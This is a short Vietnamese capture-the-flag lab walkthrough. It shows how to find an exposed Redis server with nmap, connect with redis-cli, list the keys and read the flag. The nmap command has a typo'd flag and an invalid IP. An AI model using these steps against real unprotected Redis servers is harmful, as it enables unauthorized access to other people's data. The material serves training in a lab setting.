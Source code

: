 >Trong phần lab này sẽ tập trung vào thu thập thông tin của server Redis từ xa và trích xuất database nhằm lấy flag. Sẽ học được cách sử dụng redis-cli, một script sử dụng tương tác lệnh (command line interface) để giao tiếp với Redis. Ta cũng sẽ được tìm hiểu qua về database từ khóa - giá trị (key-value database).
### 1. Tìm kiếm thông tin target
###### IP: 10.129.251.12
##### + Kiểm tra kết nối:
` ping 10.129.251.12 `
##### + Kiểm tra cổng và dịch vụ
` nmap -p- -Sv 10.129.261.12 `
###### -p- : tất cả cổng (mặc định nmap chỉ quét 1000 cổng đầu tiên)
##### => port 6379/tcp - Service Redis
###### Redis (REmote Dictionary Server): một database trong bộ nhớ, phụ thuộc vào bộ nhớ chính để chứa data (database được quản lý bởi RAM trong hệ thống), mã nguồn mở và lưu data dưới dạng key-value.

### 2. Kết nối và truy xuất dữ liệu trong Redis
##### + Để kết nối với Redis, cần cài đặt redis-cli:
` sudo apt install redis-tools `
##### + Kết nối với database: 
``` 
redis-cli -h 10.129.251.12
10.129.251.12:6379>
```
###### -h : cụ thể hostname của target sẽ kết nối.
##### + Sau khi kết nối thành công, ta có thể kiểm tra thông tin của Redis server:
```
10.129.251.12:6379> info

# Server
redis_version:5.0.7
redis_git_shal:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
...
# Keyspace
db0:keys=4, expires,avg_ttl=0
```
###### Phần keyspace cung cấp thông số của thư viện chính của mỗi database. Trong trường hợp trên, ta thấy chỉ có 1 database tồn tại là db0 với index = 0.
##### + Chọn database db0:
``` 
10.129.251.12:6379> select 0
OK
```
###### select: chọn database dựa trên index.
##### + Xem các dữ liệu (keys) đang có trong database và truy xuất:
```
10.129.251.12:6379> keys *
1) "temp"
2) "stor"
3) "numb"
4) "flag"
10.129.251.12:6379> get flag
```
###### keys *: liệt kê tất cả key tồn tại trong  database.
###### get: lấy key (flag)
